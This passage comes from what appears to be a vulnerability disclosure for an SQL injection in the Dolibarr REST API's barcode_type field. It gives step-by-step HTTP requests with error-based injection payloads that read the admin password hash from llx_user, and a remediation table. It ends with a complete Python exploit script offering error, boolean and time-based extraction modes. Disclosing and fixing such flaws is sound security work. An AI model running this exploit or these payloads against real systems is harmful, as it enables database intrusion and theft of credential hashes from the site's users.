

12. Read bytes 1–20 of `llx_user.pass_crypted`

```HTTP
PUT /api/index.php/products/2 HTTP/1.1
Host: 127.0.0.1:8089
Content-Type: application/json
DOLAPIKEY: <a key holding produit/creer>

{"barcode_type":"(SELECT updatexml(1,concat(0x7e,SUBSTRING((SELECT pass_crypted FROM llx_user WHERE login=0x61646d696e LIMIT 1),1,20)),1))"}
```



13. In the same request, change the `SUBSTRING` start to 21 to read bytes 21–40

```HTTP
PUT /api/index.php/products/2 HTTP/1.1
Host: 127.0.0.1:8089
Content-Type: application/json
DOLAPIKEY: <a key holding produit/creer>

{"barcode_type":"(SELECT updatexml(1,concat(0x7e,SUBSTRING((SELECT pass_crypted FROM llx_user WHERE login=0x61646d696e LIMIT 1),21,20)),1))"}
```



Concatenated, they are admin's md5_pass.

#### POC Verification



### Remediation Recommendations


| Cause                                    | Location                                                                                                                      | Fix                                                                                                                     | Does the rest of the chain still hold after fixing it                                                    |
| ----------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------- |
| A `fk_barcode_type` concatenated without quotes          | `htdocs/product/class/product.class.php:1622`                                                                             | Change it to `((int) $this->barcode_type)`, consistent with the quoted style of the adjacent `:1621`                                                    | Fix A only: the injection point is closed and the chain breaks                                                    |
| B field-name mismatch causes type sanitization to be skipped          | `htdocs/api/class/api.class.php:157-164`                                                                                  | Return 400 directly for keys not declared in `$object->fields` instead of defaulting to `alphanohtml`; or force `sanitizeVal(...,'int')` for `fk_*`/integer column names | Fix B only: the payload is converted to an integer and cannot form an expression                                  |
| C the REST 500 echoes the raw database error and the full SQL | `htdocs/product/class/api_products.class.php:551`, `htdocs/includes/restler/framework/Luracast/Restler/Compose.php:53-61` | Return only an error code and summary externally; write the full SQL and DB error to the log only                                                                      | Fix C only: the injection is still there, but the error oracle stops working; the boolean/time oracles still work, so A/B must be fixed as well |

### Code Appendix

#### exploit.py

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
Dolibarr 24.0.2 REST API `barcode_type` unquoted numeric-context SQL injection
Default read target: admin's pass_crypted in llx_user (bcrypt password hash)

Three oracles, all independent of php.ini display_errors and $dolibarr_main_prod:
  error (default): updatexml error echo, 20 bytes per request
  bool           : IF(condition, fk_barcode_type, 1) — true 200 (NULL is legal) / false 500 (1 violates the foreign key)
  time           : IF(condition, SLEEP(n), fk_barcode_type) — true sleeps / false does not

Prerequisites:
  - Module API / Web services (REST server) enabled
  - Module Products enabled
  - A REST key holding the produit/creer permission (the admin key is fine)
  - An existing product id (create it with POST /products, ref is required)

Usage:
  python3 V-13-exploit.py --apikey <key> --pid 2
  python3 V-13-exploit.py --apikey <key> --pid 2 --mode bool
  python3 V-13-exploit.py --apikey <key> --pid 2 --mode time --sleep 1
  python3 V-13-exploit.py --apikey <key> --pid 2 --user admin --field pass_crypted --length 60
"""
import argparse
import json
import re
import sys
import time
import urllib.error
import urllib.request

BEGIN_ERR = re.compile(r"XPATH syntax error: '~(.*?)'")


class V13(object):
    def __init__(self, base, apikey, pid, user="admin", field="pass_crypted", timeout=30):
        self.base = base.rstrip("/")
        self.apikey = apikey
        self.pid = pid
        self.user = user
        self.field = field
        self.timeout = timeout
        self.nreq = 0
        self.t0 = time.time()

    # ---------- HTTP primitives ----------
    def put(self, payload):
        """Deliver {"barcode_type": payload} to PUT /products/{pid} and return (status, body)."""
        body = json.dumps({"barcode_type": payload}).encode()
        req = urllib.request.Request(
            "%s/api/index.php/products/%d" % (self.base, self.pid), data=body, method="PUT")
        req.add_header("DOLAPIKEY", self.apikey)
        req.add_header("Content-Type", "application/json")
        self.nreq += 1
        try:
            with urllib.request.urlopen(req, timeout=self.timeout) as r:
                return r.status, r.read().decode("utf-8", "replace")
        except urllib.error.HTTPError as e:
            return e.code, e.read().decode("utf-8", "replace")
        except Exception as e:
            return 0, str(e)

    def subject(self):
        """Subquery for the target field: llx_user.<field> where login='<user>'."""
        hexuser = self.user.encode().hex()
        return "(SELECT %s FROM llx_user WHERE login=0x%s LIMIT 1)" % (self.field, hexuser)

    # ---------- the three oracles ----------
    def error_chunk(self, offset, length=20):
        """error mode: read the plaintext of [offset, offset+length)."""
        expr = "(SELECT updatexml(1,concat(0x7e,SUBSTRING(%s,%d,%d)),1))" % (
            self.subject(), offset, length)
        _, body = self.put(expr)
        m = BEGIN_ERR.search(body)
        return m.group(1) if m else None

    def bool_bit(self, pos, mid):
        """bool mode: ASCII(character at pos) > mid ? true 200 / false 500."""
        expr = "IF(ASCII(SUBSTRING(%s,%d,1))>%d,fk_barcode_type,1)" % (self.subject(), pos, mid)
        st, _ = self.put(expr)
        return st == 200

    def time_bit(self, pos, mid, sleep=1):
        """time mode: SLEEP(n) when the condition is true; compare elapsed time."""
        expr = "IF(ASCII(SUBSTRING(%s,%d,1))>%d,SLEEP(%d),fk_barcode_type)" % (
            self.subject(), pos, mid, sleep)
        t = time.time()
        self.put(expr)
        return (time.time() - t) > sleep * 0.6

    def _binary_char(self, pos, bitfn):
        lo, hi = 0, 127
        while lo < hi:
            mid = (lo + hi) // 2
            if bitfn(pos, mid):
                lo = mid + 1
            else:
                hi = mid
        return chr(lo) if 32 <= lo < 127 else "."


def main():
    ap = argparse.ArgumentParser(description="Dolibarr V-13 REST barcode_type SQLi (reads admin pass_crypted by default)")
    ap.add_argument("--url", default="http://127.0.0.1:8089", help="target (default %(default)s)")
    ap.add_argument("--apikey", required=True, help="DOLAPIKEY (requires produit/creer)")
    ap.add_argument("--pid", type=int, required=True, help="existing product id")
    ap.add_argument("--user", default="admin", help="login of the user whose password to read (default %(default)s)")
    ap.add_argument("--field", default="pass_crypted", help="llx_user field (default %(default)s; try pass on old databases)")
    ap.add_argument("--length", type=int, default=60, help="number of bytes to read (60 for bcrypt)")
    ap.add_argument("--mode", choices=["error", "bool", "time"], default="error",
                    help="oracle type (default %(default)s)")
    ap.add_argument("--sleep", type=float, default=1.0, help="seconds to sleep per decision in time mode")
    args = ap.parse_args()

    o = V13(args.url, args.apikey, args.pid, user=args.user, field=args.field)
    print("[*] target : %s/api/index.php/products/%d" % (o.base, o.pid))
    print("[*] subject: llx_user.%s WHERE login=%r   mode=%s" % (args.field, args.user, args.mode))

    out = ""
    if args.mode == "error":
        off = 1
        while len(out) < args.length:
            chunk = o.error_chunk(off, min(20, args.length - len(out)))
            if not chunk:
                print("[!] no error echo from byte %d onward, oracle failed" % off)
                break
            out += chunk
            print("[%3d] %r" % (len(out), out))
            off += len(chunk)
    else:
        bitfn = o.bool_bit if args.mode == "bool" else (lambda p, m: o.time_bit(p, m, args.sleep))
        for pos in range(1, args.length + 1):
            out += o._binary_char(pos, bitfn)
            if pos % 10 == 0 or pos == args.length:
                print("[%3d] %r" % (pos, out))

    print("[*] requests: %d   elapsed: %.1fs" % (o.nreq, time.time() - o.t0))
    print("[*] RESULT: %s" % out)
    return 0 if len(out) >= args.length else 1


if __name__ == "__main__":
    sys.exit(main())
```
